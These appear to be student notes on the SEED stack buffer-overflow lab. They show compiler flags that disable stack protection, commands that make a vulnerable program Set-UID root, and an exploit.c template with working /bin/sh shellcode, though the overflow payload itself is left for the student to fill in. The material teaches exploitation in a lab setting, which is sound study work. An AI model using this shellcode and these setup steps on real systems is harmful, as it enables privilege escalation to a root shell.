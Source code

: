 32位Linux系统调用规则,`ebx,ecx,edx,esi,edi`分别传递参数.系统调用编号记录在al中

`gcc -z execstack -o call_shellcode call_shellcode.c`

### 2.3 The Vulnerable Program

`-fno-stack-protector -z execstack`

Change the program to be a Set-UID program.

```shell
sudo chown root stack
sudo chmod 4755 stack
```

### 2.4 Task 2: Exploiting the Vulnerability

```c
/* exploit.c */
/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[] =
"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x50" /* Line 2: pushl %eax */
"\x68""//sh" /* Line 3: pushl $0x68732f2f */
"\x68""/bin" /* Line 4: pushl $0x6e69622f */
"\x89\xe3" /* Line 5: movl %esp,%ebx */
"\x50" /* Line 6: pushl %eax */
"\x53" /* Line 7: pushl %ebx */
"\x89\xe1" /* Line 8: movl %esp,%ecx */
"\x99" /* Line 9: cdq */
"\xb0\x0b" /* Line 10: movb $0x0b,%al */
"\xcd\x80" /* Line 11: int $0x80 */
;

void main(int argc, char **argv)
{
	char buffer[517];
	FILE *badfile;
	/* Initialize buffer with 0x90 (NOP instruction) */

	memset(&buffer, 0x90, 517);
	/* You need to fill the buffer with appropriate contents here */
	/* ... Put your code here ... */
	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);       // 朝badfile里写入一个517bytes大小的块
	fclose(badfile);
}

```
